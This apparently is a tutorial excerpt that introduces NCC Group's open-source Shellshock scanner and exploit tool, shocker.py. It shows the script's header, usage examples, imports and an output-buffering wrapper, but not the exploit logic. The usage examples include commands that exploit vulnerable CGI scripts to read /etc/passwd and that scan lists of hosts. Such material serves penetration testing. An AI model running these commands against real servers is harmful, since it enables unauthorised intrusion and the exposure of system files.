 Using this source \[https://raw.githubusercontent.com/nccgroup/shocker/master/shocker.py] or copy-paste the below code to \[shocker.py] script.

```python
#!/usr/bin/env python

"""
shocker.py v1.1
A tool to find and exploit webservers vulnerable to Shellshock

##############################################################################
# Released as open source by NCC Group Plc - http://www.nccgroup.com/        #
#                                                                            #
# Developed by Tom Watson, tom.watson@nccgroup.trust                         #
#                                                                            #
# https://www.github.com/nccgroup/shocker                                    #
#                                                                            #
# Released under the GNU Affero General Public License                       #
# (https://www.gnu.org/licenses/agpl-3.0.html)                               #
##############################################################################

Usage examples:
./shocker.py -H 127.0.0.1 -e "/bin/cat /etc/passwd" -c /cgi-bin/test.cgi
Scans for http://127.0.0.1/cgi-bin/test.cgi and, if found, attempts to cat 
/etc/passwd

./shocker.py -H www.example.com -p 8001 -s
Scan www.example.com on port 8001 using SSL for all scripts in cgi_list and
attempts the default exploit for any found

./shocker.py -f iplist
Scans all hosts specified in the file ./iplist with default options

Read the README for more details
"""

import urllib2
import argparse
import string
import StringIO
import random
import signal
import sys
import socket
import Queue
import threading
import re
from collections import OrderedDict


# Wrapper object for sys.sdout to elimate buffering
# (https://stackoverflow.com/questions/107705/python-output-buffering)
class Unbuffered(object):
    def __init__(self, stream):
        self.stream = stream
    def write(self, data):
        self.stream.write(data)
        self.stream.flush()
    def __getattr__(self, attr):
        return getattr(self.stream, attr)

# Wrap std.out in Unbuffered
sys.stdout = Unbuffered(sys.stdout)

```